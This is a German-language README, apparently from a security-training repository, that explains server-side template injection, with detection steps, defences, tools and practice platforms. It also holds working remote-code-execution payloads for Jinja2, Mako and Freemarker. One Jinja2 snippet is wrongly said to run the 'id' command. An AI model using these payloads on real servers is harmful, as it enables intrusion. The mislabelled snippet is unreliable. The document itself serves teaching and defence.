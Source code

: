 # 🧩 SSTI – Server-Side Template Injection



## Inhaltsverzeichnis
- [Was ist SSTI?](#was-ist-ssti)
- [Typische Template Engines](#typische-template-engines)
- [Wie erkennt man SSTI?](#wie-erkennt-man-ssti)
- [Typische Test-Payloads](#typische-test-payloads)
- [Exploits: Jinja2 RCE (Python)](#exploits-jinja2-rce-python)
- [SSTI Cheat-Sheet: Template Engines](#ssti-cheat-sheet-template-engines)
- [Tools zur Unterstützung](#tools-zur-unterstützung)
- [Schutzmaßnahmen](#schutzmaßnahmen)
- [Beispiele aus der Praxis](#beispiele-aus-der-praxis)
- [Lerne & Übe SSTI](#lerne--übe-ssti)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Was ist SSTI?

**Server-Side Template Injection (SSTI)** bezeichnet eine Schwachstelle, bei der ein Angreifer serverseitige Template-Engines manipulieren kann, um beliebige Ausdrücke auszuführen. Das passiert, wenn Benutzereingaben ohne Filterung in Templates eingebunden werden.

> 🔥 In vielen Fällen führt SSTI zu **Remote Code Execution (RCE)** auf dem Server.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Template Engines

| Sprache  | Engine             | Erkennbar an…             |
|----------|--------------------|----------------------------|
| Python   | Jinja2, Mako        | `{{7*7}}`, `{% for %}`     |
| PHP      | Twig, Smarty        | `{{ 'PHP' }}`              |
| Java     | Freemarker, Velocity | `${7*7}`, `#set($var=7)`   |
| JavaScript | EJS, Handlebars   | `{{7*7}}`                  |
| Ruby     | ERB, Liquid         | `<%= 7*7 %>`               |


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wie erkennt man SSTI?

### Schritt-für-Schritt-Erkennung

1. **Füge einfache Payloads ein:**
   - `{{7*7}}`
   - `${7*7}`
   - `<%= 7*7 %>`
   - `*{{constructor.constructor("alert(1)")()}}*` (JS)

2. **Prüfe auf gerenderte Ergebnisse:**
   - Wird `49` angezeigt? → **SSTI vorhanden**
   - Wird der Ausdruck als Text zurückgegeben? → vermutlich keine SSTI




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Test-Payloads

| Payload       | Bedeutung                      |
|---------------|-------------------------------|
| `{{7*7}}`      | Arithmetischer Test           |
| `{{self}}`     | Zugriff auf interne Objekte  |
| `{{config}}`   | Zugriff auf Konfiguration     |
| `${{7*7}}`     | Freemarker Payload            |
| `<%= 7*7 %>`   | Ruby ERB                      |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Exploits: Jinja2 RCE (Python)

```jinja2
{{''.__class__.__mro__[1].__subclasses__()}}
```
→ Führt id-Befehl aus!


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Kürzer über cycler, joiner:

```jinja2
{{cycler.__init__.__globals__.os.popen('id').read()}}
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## SSTI Cheat-Sheet: Template Engines

| Engine     | Ausdruck                                                   | RCE möglich?  |
| ---------- | ---------------------------------------------------------- | ------------- |
| Jinja2     | `{{7*7}}`, `{{config}}`                                    | ✅             |
| Mako       | `${7*7}`, `${os.system('ls')}`                             | ✅             |
| Twig       | `{{ 7*7 }}`                                                | eingeschränkt |
| Freemarker | `${7*7}`, `${"freemarker.template.utility.Execute"?new()}` | ✅             |
| ERB        | `<%= 7*7 %>`                                               | ✅             |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Unterstützung

| Tool       | Beschreibung                            |
| ---------- | --------------------------------------- |
| Burp Suite | Manuelle & automatische Tests           |
| tplmap     | Automatisierte SSTI-Erkennung + Exploit |
| WFuzz      | Fuzzing von Parametern                  |
| SSTI-Lab   | Eigene Trainingsumgebung (GitHub)       |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Schutzmaßnahmen

| Maßnahme                             | Beschreibung                           |
| ------------------------------------ | -------------------------------------- |
| Eingabe validieren                   | Nur erlaubte Zeichen zulassen          |
| Escaping                             | `{% autoescape %}` verwenden           |
| Logik & Templates trennen            | Keine Logik im Template verarbeiten    |
| Keine Userdaten im Template          | Niemals unescaped einfügen             |
| Template Engine sicher konfigurieren | z. B. `sandbox`, kein Zugriff auf eval |





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiele aus der Praxis

| Beispiel                               | Anfälligkeit |
| -------------------------------------- | ------------ |
| Feedback-Form mit Template-Output      | SSTI         |
| Benutzername wird ins Template geladen | SSTI         |
| Fehlermeldungen mit dynamischem Inhalt | SSTI möglich |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Lerne & Übe SSTI

| Plattform        | Inhalt                         |
| ---------------- | ------------------------------ |
| TryHackMe        | SSTI Room (z. B. „Injection“)  |
| PortSwigger Labs | Web Security Academy           |
| HackTheBox       | Machines: „Jeeves“, „Bashed“   |
| DVWA/bWAPP       | Simulierte SSTI-Schwachstellen |





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Weiterführende Links

- [PayloadsAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PortSwigger SSTI Labs](https://portswigger.net/web-security/server-side-template-injection)
- [tplmap Tool](https://github.com/epinna/tplmap)
- [OWASP SSTI Guide](https://owasp.org/www-community/attacks/Server-Side_Template_Injection)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

